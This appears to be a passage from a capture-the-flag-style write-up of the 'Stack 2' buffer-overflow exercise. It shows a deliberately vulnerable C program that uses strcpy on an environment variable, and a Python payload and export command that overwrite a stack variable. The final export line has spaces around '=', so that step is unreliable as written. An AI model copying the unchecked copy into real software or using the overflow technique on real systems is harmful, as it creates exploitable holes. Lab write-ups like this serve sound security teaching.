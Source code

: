 ## Stack 2

Supplied C Code is
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
    printf("you have correctly modified the variable\n");
  } else {
    printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Reading through this program source, we get some idea of what is happening.
The program is calling `getenv` with **GREENIE** as a parameter. If this is *NULL*, it exits, but if it isn't *NULL*, it copies it into a buffer.
When you think about it, this isn't really different from Stack 1. This is just a new form of input. We can control things like the environment variables with the unix command `export`

Like before we want to take into account the endianness of the computer. So we will enter 64 characters to fill the buffer, and then *0x0d0a0d0a* backwards -> *0x0a0d0a0d*.

We can use a python script to generate the string
```python
python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")'
```
We can run this python script inline, using backticks \` \`.
So if we run ```export GREENIE = `python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")` ```
Then execute the program. We win!

## Stack 3
